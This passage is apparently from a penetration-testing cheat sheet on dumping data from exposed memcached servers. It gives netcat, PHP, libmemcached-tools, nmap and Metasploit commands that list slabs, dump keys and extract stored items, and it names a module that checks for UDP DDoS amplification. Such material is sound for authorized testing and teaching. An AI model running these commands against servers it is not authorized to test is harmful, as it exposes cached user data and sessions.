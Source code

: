 To exfiltrate all the information saved inside a memcache instance you need to:

1. Find **slabs** with **active items**
2. Get the **key names** of the slabs detected before
3. Ex-filtrate the **saved data** by **getting the key names**

Remember that this service is just a **cache**, so **data may be appearing and disappearing**.

```bash
echo "version" | nc -vn -w 1 <IP> 11211      #Get version
echo "stats" | nc -vn -w 1 <IP> 11211        #Get status
echo "stats slabs" | nc -vn -w 1 <IP> 11211  #Get slabs
echo "stats items" | nc -vn -w 1 <IP> 11211  #Get items of slabs with info
echo "stats cachedump <number> 0" | nc -vn -w 1 <IP> 11211  #Get key names (the 0 is for unlimited output size)
echo "get <item_name>" | nc -vn -w 1 <IP> 11211  #Get saved info

#This php will just dump the keys, you need to use "get <item_name> later"
sudo apt-get install php-memcached
php -r '$c = new Memcached(); $c->addServer("localhost", 11211); var_dump( $c->getAllKeys() );'
```

### Manual2

```bash
sudo apt install libmemcached-tools
memcstat --servers=127.0.0.1 #Get stats
memcdump --servers=127.0.0.1 #Get all items
memccat  --servers=127.0.0.1 <item1> <item2> <item3> #Get info inside the item(s)
```

### Automatic

```bash
nmap -n -sV --script memcached-info -p 11211 <IP>   #Just gather info
msf > use auxiliary/gather/memcached_extractor      #Extracts saved data
msf > use auxiliary/scanner/memcached/memcached_amp #Check is UDP DDoS amplification attack is possible 
```

## **Dumping Memcache Keys**

In the realm of memcache, a protocol that assists in organizing data by slabs, specific commands exist for inspecting the stored data, albeit with notable constraints:

1. Keys can only be dumped by slab class, grouping keys of similar content size.
2. A limit exists of one page per slab class, equating to 1MB of data.
3. This feature is unofficial and may be discontinued at any time, as discussed in [community forums](https://groups.google.com/forum/?fromgroups=#!topic/memcached/1-T8I-RVGKM).

The limitation of only being able to dump 1MB from potentially gigabytes of data is particularly significant. However, this functionality can still offer insights into key usage patterns, depending on specific needs. For those less interested in the mechanics, a visit to the [tools section](https://lzone.de/cheat-sheet/memcached#tools) reveals utilities for comprehensive dumping. Alternatively, the process of using telnet for direct interaction with memcached setups is outlined below.
